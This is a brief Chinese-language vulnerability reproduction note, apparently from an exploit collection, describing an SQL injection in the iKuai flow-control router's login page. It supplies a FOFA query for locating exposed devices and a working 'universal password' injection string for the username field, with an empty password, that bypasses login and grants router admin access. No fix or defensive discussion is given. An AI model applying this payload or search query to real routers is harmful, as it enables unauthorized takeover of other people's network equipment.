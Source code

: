 # iKuai 流控路由 SQL注入漏洞

## 漏洞描述

iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限

## 漏洞影响

<a-checkbox checked>iKuai 流控路由</a-checkbox></br>

## FOFA

<a-checkbox checked>title="登录爱快流控路由"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210531180103698.png)



使用万能密码登录后台



```plain
user: "or""=""or""="
pass: 空
```



![img](../../../.vuepress/public/img/image-20210531180212296.png)

